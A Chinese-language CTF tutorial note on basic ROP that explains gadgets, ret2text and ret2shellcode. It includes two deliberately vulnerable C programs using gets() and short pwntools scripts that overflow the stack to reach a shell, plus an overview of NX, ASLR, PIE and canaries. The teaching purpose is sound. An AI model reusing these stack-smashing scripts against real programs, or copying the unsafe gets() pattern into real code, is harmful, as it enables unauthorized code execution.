


# 基本 ROP

## 概述

**ROP（Return Oriented Programming，返回导向编程）** 是一种在开启了 NX（不可执行）保护的情况下，利用程序中已有的代码片段来执行恶意代码的技术。

简单来说，ROP 就像是**搭积木**——程序中已经有很多现成的代码片段（我们称之为 gadgets），我们通过精心设计栈上的返回地址，把这些代码片段串联起来，让程序执行我们想要的操作。

### 为什么需要 ROP？

在早期的栈溢出攻击中，我们可以直接把 shellcode 放到栈上，然后让程序跳转到栈上去执行。但是随着 NX（No-eXecute，不可执行）保护的出现，栈和堆这些可写的区域变成了不可执行的，传统的攻击方法就失效了。

ROP 的出现就是为了绕过 NX 保护。既然我们不能执行新写的代码，那我们就执行程序中**已经存在的代码**！

### ROP 的基本条件

要成功进行 ROP 攻击，通常需要满足以下条件：

1. **程序存在栈溢出漏洞** - 能够控制栈上的返回地址
2. **能够找到合适的 gadgets** - 程序中有可用的代码片段
3. **能够知道 gadgets 的地址** - 需要绕过 ASLR（地址随机化）保护

---

## ROP 原理图解

### ROP 工作原理流程图


### ROP 链式调用示意图



### ROP 思维导图



---

## 详细解释

### 什么是 Gadget？

Gadget 就是程序中已有的一小段指令序列，通常以 `ret` 指令结尾。比如：

```asm
pop eax; ret;        ; 把栈上的值弹出到 eax 寄存器
mov [eax], ebx; ret; ; 把 ebx 的值写入 eax 指向的地址
```

这些小片段就像是乐高积木，我们可以把它们拼在一起完成复杂的功能。

### ROP 的工作原理

ROP 的核心思想非常巧妙：

1. **控制返回地址** - 通过栈溢出，我们可以控制函数返回时跳转到哪里
2. **链式调用** - 第一个 gadget 执行完后，会通过 `ret` 指令跳转到第二个 gadget
3. **利用栈传参** - 我们在栈上布置好数据，gadget 执行时会从栈上读取这些数据

这就像是一场**接力赛**，每个 gadget 跑完自己的那一棒，就把接力棒（控制权）交给下一个 gadget。

---

## 主要技术

### ret2text

**ret2text** 是最简单的 ROP 技术，就是控制程序跳转到程序中已有的某段代码去执行。

#### 原理

有时候程序中已经有我们想要执行的代码了！比如可能有个 `system("/bin/sh")` 的调用，或者有个可以直接给我们 shell 的函数。这时候我们只需要让程序跳转到那里就行。

#### 示例

让我们通过一个具体的例子来理解：

```c
#include <stdio.h>
#include <string.h>

void secure() {
    // 这里有我们想要执行的代码！
    system("/bin/sh");
}

void vulnerable() {
    char buf[100];
    gets(buf);  // 危险函数！
}

int main() {
    vulnerable();
    return 0;
}
```

**攻击步骤：**

1. **找到目标地址** - 我们需要找到 `secure` 函数的地址
2. **计算偏移量** - 算出我们的输入要写多少字节才能覆盖到返回地址
3. **构造 payload** - 填充垃圾数据 + 新的返回地址

**利用脚本：**

```python
from pwn import *

sh = process('./ret2text')
target_addr = 0x0804843b  # secure 函数的地址

# 构造 payload
# buf 距离 ebp 是 0x6c 字节
# + 4 字节的 saved ebp
# + 4 字节的返回地址
payload = b'A' * (0x6c + 4) + p32(target_addr)

sh.sendline(payload)
sh.interactive()
```

这个例子虽然简单，但它展示了 ROP 的核心思想：**控制返回地址，让程序执行我们想让它执行的代码**。

---

### ret2shellcode

**ret2shellcode** 是在还没有开启 NX 保护时使用的技术，或者我们能找到一个可执行的区域来存放 shellcode。

#### 原理

虽然 NX 保护让栈不可执行了，但有时候：
1. NX 保护根本没开
2. 有其他可执行的内存区域（比如某个 RWX 权限的段）
3. 我们可以把 shellcode 放到那里，然后跳过去执行

#### 示例

```c
#include <stdio.h>
#include <string.h>

char buf2[100];  // 在 bss 段

void vulnerable() {
    char buf[100];
    gets(buf);
    strcpy(buf2, buf);  // 把输入复制到 bss 段
}

int main() {
    vulnerable();
    return 0;
}
```

假设这个程序的 bss 段是可执行的（RWX 权限），那我们就可以：

1. **把 shellcode 放到 buf2**
2. **让程序跳转到 buf2 去执行**

**利用脚本：**

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())  # 生成 shellcode
buf2_addr = 0x0804a080  # bss 段的地址

# 构造 payload
# shellcode 放在前面，然后填充到返回地址，然后跳转到 buf2
payload = shellcode.ljust(112, b'A') + p32(buf2_addr)

sh.sendline(payload)
sh.interactive()
```

> **注意**：ret2shellcode 在现代系统中已经比较难用了，因为 NX 保护通常都是开启的。但理解它对学习 ROP 很有帮助！

---

## 相关保护机制

在学习 ROP 的过程中，你会遇到各种保护机制。让我们来了解一下：

### NX（No-eXecute）

**作用**：让栈和堆不可执行，防止直接执行 shellcode

**影响**：迫使我们使用 ROP 技术，而不是直接执行 shellcode

**类比**：就像是银行把金库的门锁上了，我们不能直接进去拿钱，但可以通过银行内部的工作人员（已有代码）来帮我们做事。

---

### ASLR（Address Space Layout Randomization）

**作用**：随机化程序加载的基地址，让我们不知道 gadgets 的具体地址

**影响**：我们需要想办法泄露地址，或者使用不依赖具体地址的技术

**类比**：就像是每次去商店，商品的位置都会变，你需要先搞清楚东西在哪里才能买到。

---

### PIE（Position Independent Executable）

**作用**：让程序本身的加载地址也是随机的

**影响**：即使是程序内部的函数地址，每次运行也都不一样

**类比**：就像是商店的位置每次都会变，你需要先找到商店在哪。

---

### Stack Canary（金丝雀）

**作用**：在栈上放一个特殊的值，如果溢出了会检测到

**影响**：我们需要想办法绕过或者泄露 canary 的值

**类比**：就像是在门口放了一个花瓶，如果有人闯进来会碰到花瓶，你就知道有人来了。

---

## 应用场景

ROP 技术在以下场景非常有用：

1. **CTF 比赛** - pwn 题目的标配技能
2. **漏洞利用研究** - 研究如何绕过现代保护机制
3. **安全研究** - 理解程序漏洞和利用原理

---

## 学习建议

### 1. 先搞懂栈溢出

在学习 ROP 之前，确保你已经理解了基本的栈溢出原理。可以参考：
- [[栈介绍]]
- [[栈溢出原理]]
- [[C语言函数调用栈（一）]]
- [[C语言函数调用栈（二）]]

### 2. 动手实践

ROP 是一门需要动手的技术！建议：
- 使用 pwntools 写利用脚本
- 在本地搭建测试环境
- 多做 CTF 题目练习

### 3. 循序渐进

不要一开始就追求复杂的 ROP 链。先从简单的 ret2text 开始，然后再逐步学习更高级的技术。

---

## 相关概念

- [[栈溢出原理]] - 栈溢出的基础
- [[中级ROP]] - 更高级的 ROP 技术（ret2libc、ret2csu 等）
- [[C语言函数调用栈（一）]] - 理解栈帧结构

---

## 参考资料

- CTF Wiki - https://ctf-wiki.org/
- 《Practical Reverse Engineering》
- 各种 CTF 比赛的 pwn 题目

